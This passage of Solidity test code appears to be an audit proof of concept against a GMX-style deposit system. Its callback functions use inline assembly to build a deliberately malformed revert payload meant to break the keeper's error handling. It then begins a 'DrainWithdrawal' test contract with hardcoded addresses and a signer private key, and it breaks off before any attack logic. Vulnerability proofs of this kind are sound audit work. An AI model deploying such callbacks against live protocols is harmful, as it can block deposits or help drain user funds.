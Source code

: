 ```solidity
            mstore(free_mem_ptr, 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_mem_ptr, 4), 0xffffffffffffff ) // This will cause a revert 
            mstore(add(free_mem_ptr, 36), 8)
            mstore(add(free_mem_ptr, 68), "deadbeef")
            revert(free_mem_ptr, 100)
        }
    }
    function afterDepositCancellation(bytes32 key, Deposit.Props memory deposit) external {
        assembly{
            let free_mem_ptr := mload(64)
            mstore(free_mem_ptr, 0x08c379a000000000000000000000000000000000000000000000000000000000)
            mstore(add(free_mem_ptr, 4), 0xffffffffffffff ) // This will cause a revert 
            mstore(add(free_mem_ptr, 36), 8)
            mstore(add(free_mem_ptr, 68), "deadbeef")
            revert(free_mem_ptr, 100)
        }
    }
}

interface IRoleStore{
    function grantRole(address account, bytes32 roleKey) external;
}

contract DrainWithdrawal is Test {
    struct CreateDepositParams {
        address receiver;
        address callbackContract;
        address market;
        address initialLongToken;
        address initialShortToken;
        address[] longTokenSwapPath;
        address[] shortTokenSwapPath;
        uint256 minMarketTokens;
        bool shouldUnwrapNativeToken;
        uint256 executionFee;
        uint256 callbackGasLimit;
    }

    uint256 public constant COMPACTED_64_BIT_LENGTH = 64;
    uint256 public constant COMPACTED_64_BITMASK = ~uint256(0) >> (256 - COMPACTED_64_BIT_LENGTH);
    
    uint256 public constant COMPACTED_32_BIT_LENGTH = 32;
    uint256 public constant COMPACTED_32_BITMASK = ~uint256(0) >> (256 - COMPACTED_32_BIT_LENGTH);

    uint256 public constant COMPACTED_8_BIT_LENGTH = 8;
    uint256 public constant COMPACTED_8_BITMASK = ~uint256(0) >> (256 - COMPACTED_8_BIT_LENGTH);

    IExchangeRouter EXCHANGE_ROUTER = IExchangeRouter(0x4bf010f1b9beDA5450a8dD702ED602A104ff65EE);
    address dataStore = 0x09635F643e140090A9A8Dcd712eD6285858ceBef;
    IReader reader = IReader(0xD49a0e9A4CD5979aE36840f542D2d7f02C4817Be);
    address WETH = 0x99bbA657f2BbC93c02D617f8bA121cB8Fc104Acf;
    address USDC = 0x9d4454B023096f34B160D6B654540c56A1F81688;
    address depositVault = 0xB0f05d25e41FbC2b52013099ED9616f1206Ae21B;
    address controller = 0x1429859428C0aBc9C2C47C8Ee9FBaf82cFA0F20f;
    address roleStore = 0x5FbDB2315678afecb367f032d93F642f64180aa3;
    address ROLE_ADMIN = 0xe1Fd27F4390DcBE165f4D60DBF821e4B9Bb02dEd;
    IDepositHandler depositHandler = IDepositHandler(0xD42912755319665397FF090fBB63B1a31aE87Cee);

    address signer = 0xBcd4042DE499D14e55001CcbB24a551F3b954096;
    uint256 pk = 0xf214f2b2cd398c806f84e317254e0f0b801d0643303237d97a22a48e01628897;

```